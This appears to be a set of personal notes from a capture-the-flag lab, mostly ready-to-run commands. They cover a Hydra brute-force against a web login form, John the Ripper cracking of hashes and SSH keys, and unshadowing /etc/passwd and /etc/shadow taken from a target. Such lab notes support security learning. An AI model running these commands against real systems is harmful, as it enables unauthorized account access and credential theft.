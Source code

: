 ```
sudo hydra -l R1ckRul3s -P /usr/share/wordlists/rockyou.txt 10.10.134.126 http-post-form "/login/login.php:username=R1ckRul3s&password=^PASS^&sub=Login:Invalid username or password."
```
- http-post-form    --uses post from the subdirectory
- username=R1ckRul3s&password=^PASS^&sub=Login      --found in the network tab under "send and edit"
- Invalid username or password.     -- Invalid creds state, found by entering the incorrect credentials 

---
## johntheRipper

### you can also use https://crackstation.net/ to crack hashes

wget https://gitlab.com/kalilinux/packages/hash-identifier/-/raw/kali/master/hash-id.py

RSA Key Cracker
`ssh2john RSA_Key_file > RSAforJohn.txt`
`john RSAforJohn --wordlist=rockyou/rockyou.txt

hash identifier
```
john hash.txt
```
uses johntheripper to crack hashed passwords
```
john --wordlist=[path to wordlist] [path to file]
```
--wordlist=~/Tryhackme/wordlists/rockyou.txt hash.txt
```
john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt hash_to_crack.txt
```

>if you're dealing with a standard hash type, e.g. md5 as in the example above, you have to prefix it with `raw-` to tell john you're just dealing with a standard hash type, though this doesn't always apply. To check if you need to add the prefix or not, you can list all of John's formats using john `--list=formats` and either check manually, or grep for your hash type using something like `john --list=formats | grep -iF "md5"`

---

```
unshadow [path to passwd] [path to shadow]
```

>[path to passwd] - The file that contains the copy of the /etc/passwd file you've taken from the target machine

>[path to shadow] - The file that contains the copy of the /etc/shadow file you've taken from the target machine

John can be very particular about the formats it needs data in to be able to work with it, for this reason- in order to crack /etc/shadow passwords, you must combine it with the /etc/passwd file in order for John to understand the data it's being given. To do this, we use a tool built into the John suite of tools called unshadow 

---